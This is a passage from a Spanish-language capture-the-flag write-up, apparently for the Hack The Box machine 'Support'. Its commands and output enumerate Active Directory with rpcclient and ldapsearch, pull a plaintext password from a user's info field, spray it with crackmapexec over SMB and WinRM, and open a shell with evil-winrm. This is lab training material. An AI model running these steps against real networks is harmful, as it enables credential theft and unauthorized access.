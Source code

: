 ### DESCRIPCIÓN USUARIO ADMINISTRATOR
```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c 'queryuser 0x1f4'
```
```bash
User Name   :	Administrator
```

## LDAPSEARCH AD ENUM (WITH CREDS)

Continuamos enumerando el directorio activo, en este caso con la utilidad `ldapsearch`, encontrando una credencial en el campo `info` perteneciente al usuario `support`

```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i 'samaccountname: support' -B 40
```
```bash
info: Ironside47pleasure40Watchful
```

## VALIDATING SUPPORT CREDS

Vamos a validar las credenciales del usuario `support`

### VALIDAR CREDS SMB
```bash
crackmapexec smb 10.10.11.174 -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```
```bash
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

### VALIDAR CREDS WINRM
```bash
crackmapexec winrm 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```
```bash
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

Tenemos credenciales con privilegios para conectarnos de manera remota

## GRANTED ACCESS SUPPORT USER

Accedemos a la máquina víctima con `evil-winrm`

```bash
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
```
```bash
whoami
```
```bash
support\support
```
